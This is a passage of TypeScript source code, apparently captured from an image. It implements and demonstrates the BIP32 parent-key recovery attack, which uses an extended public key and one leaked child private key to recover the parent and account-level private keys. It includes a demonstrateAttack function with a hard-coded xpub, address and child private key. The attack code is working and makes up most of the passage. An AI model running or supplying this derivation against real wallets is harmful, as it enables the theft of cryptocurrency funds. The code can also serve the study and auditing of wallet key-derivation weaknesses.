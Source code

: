 ```typescript
  }

  const parentNode = bip32Instance.fromBase58(xpub);
  const parentPublicKey = parentNode.publicKey;
  const parentChainCode = parentNode.chainCode;

  const childPrivKey = Buffer.isBuffer(childPrivateKey)
    ? childPrivateKey
    : Buffer.from(childPrivateKey, 'hex');

  // Calculate HMAC-SHA512
  const data = Buffer.allocUnsafe(37);
  Buffer.from(parentPublicKey).copy(data, 0);
  data.writeUInt32BE(childIndex, 33);

  const I = crypto.createHmac('sha512', parentChainCode).update(data).digest();
  const IL = I.slice(0, 32);

  // Reverse derivation: parent_priv = (child_priv - IL) mod n
  const childPrivKeyBigInt = BigInt('0x' + childPrivKey.toString('hex'));
  const ILBigInt = BigInt('0x' + IL.toString('hex'));
  const n = BigInt('0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141');

  let parentPrivKeyBigInt = (childPrivKeyBigInt - ILBigInt) % n;
  if (parentPrivKeyBigInt < 0n) {
    parentPrivKeyBigInt = parentPrivKeyBigInt + n;
  }

  const parentPrivKeyHex = parentPrivKeyBigInt.toString(16).padStart(64, '0');
  return Buffer.from(parentPrivKeyHex, 'hex');
}

/**
 * Demonstrate the attack with real data
 */
function demonstrateAttack() {
  console.log('Attack Demonstration');
  console.log('='.repeat(60));

  // Known information (attacker has this)
  const xpub = 'xpub6CXP6MndHNJqmrULeZgJaNoCTZ73Pr9TfzdFZoHXPjQWN2xwwgCzkoasfmQBBG9DwwFab2dJTQ1tuwEp8pX5JEgwqmuJZqBQ1WCyDPQZC8k';
  const childAddress = '0xd9c79Cc5C3DE9858E8767BB702DB5FfE51a20432';
  const childPrivateKey = '0xce35c35e6abfc9ecbb379d31fe21567fc51281cdbd452a10c728598787aeeee9';

  console.log('\nAttacker knows:');
  console.log(`  xpub (m/44'/60'/0'): ${xpub.slice(0, 30)}...`);
  console.log(`  Child address: ${childAddress}`);
  console.log(`  Child private key: ${childPrivateKey.slice(0, 20)}...`);

  // Step 1: Recover m/44'/60'/0'/0 private key from m/44'/60'/0'/0/0
  console.log('\nStep 1: Recover parent at m/44\'/60\'/0\'/0');
  const xpubNode = bip32Instance.fromBase58(xpub);
  const xpub_0 = xpubNode.derive(0).neutered().toBase58();

  const recoveredPriv_0 = recoverParentPrivateKey(
    xpub_0,
    Buffer.from(toBytes(childPrivateKey)),
    0
  );
  console.log(`  Recovered: ${toHex(recoveredPriv_0).slice(0, 20)}...`);

  // Step 2: Recover m/44'/60'/0' private key (root of this account)
```